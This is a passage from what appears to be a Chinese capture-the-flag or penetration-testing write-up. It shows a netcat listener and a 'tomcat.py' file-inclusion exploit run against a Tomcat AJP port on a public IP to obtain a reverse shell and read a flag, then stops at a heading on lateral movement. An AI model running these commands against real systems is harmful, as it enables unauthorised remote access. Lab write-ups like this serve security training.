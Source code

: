 提交后得到文件

[![](assets/1705989181-dd9aac6c1c901305399636946ba294e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165941-94150f3a-b904-1.png)

## 反弹 shell

首先监听端口

```plain
nc -lvnp 7777
```

接下来使用脚本进行文件包含

```plain
python3 tomcat.py http://39.99.243.184:8080/ 8009 xx.txt   eval
```

[![](assets/1705989181-1d396efe5424f6ae1e3524f9ce5ef6a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165948-989e6bbe-b904-1.png)

而后在监听处可得到 shell，在`root/flag`文件夹下发现`flag`

[![](assets/1705989181-176ea15b09987890ae71fdd3bcf0ca45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165953-9b9248ea-b904-1.png)

# 内网横向
